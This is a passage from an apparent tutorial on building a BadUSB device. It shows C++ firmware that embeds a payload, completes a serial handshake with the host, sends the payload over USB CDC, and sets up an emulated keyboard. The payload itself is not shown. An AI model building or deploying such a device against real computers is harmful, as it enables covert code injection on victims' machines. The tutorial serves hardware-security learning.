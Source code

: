 ````c++

    code += " };";


    std::fstream outfile{ outputPath.data(), std::ios::out | std::ios::binary | std::ios::trunc };
    outfile.write(code.c_str(), code.size());

    return 0;
}
````

This text file can then simply be opened and its content copy and pasted into whatever translation unit you want, or alternatively into a header which can then be included.

### 5.3.2. Sending the Payload

All that is required now is to send the handshake response and the payload itself. Remember that in [Responding to the Handshake Request](#52-responding-to-the-handshake-request), the callback function for incoming CDC data were set to toggle the `readHandshake` variable to true. This variable is then used to check whether or not our USB device has been contacted or not. If it has, then it should attempt to send the handshake response and the accompanying payload.

The `tud_mounted()` function is a TinyUSB function, and all it does is check whether or not our USB device has been correctly mounted to the host.


````c++
if (tud_mounted() && readHandshake)
{
    readHandshake = false;

    std::array<std::uint8_t, 4> handshake{};
    std::uint32_t MAX_TRIES = 10;
    if(d.cdc_read(handshake, MAX_TRIES))
    {
        static constexpr std::array<std::uint8_t, 4> hello{ 0xD, 0xE, 0xA, 0xD };
        d.cdc_write(hello);

        // host expects the size stored in 4 bytes
        auto size = static_cast<std::int32_t>(payload.size());
        std::array<uint8_t, sizeof size> s{};
        std::memcpy(s.data(), &size, s.size());
        d.cdc_write(s);

        d.cdc_write(payload);
    }
}
````



There! The full BadUSB implementation's main function now looks like this:

````c++
extern "C" void app_main()
{
    usb::Driver<usb::CDC, usb::HID> d{};
    static bool readHandshake = false;
    d.set_cdc_rx_callback([](int interface, cdcacm_event_t* pEvent)
    {
        readHandshake = true;
    });

    usb::AsciiKeyboard keyboard{ usb::layout::Swedish{} };

    bool attempt = true;
    while(attempt)
````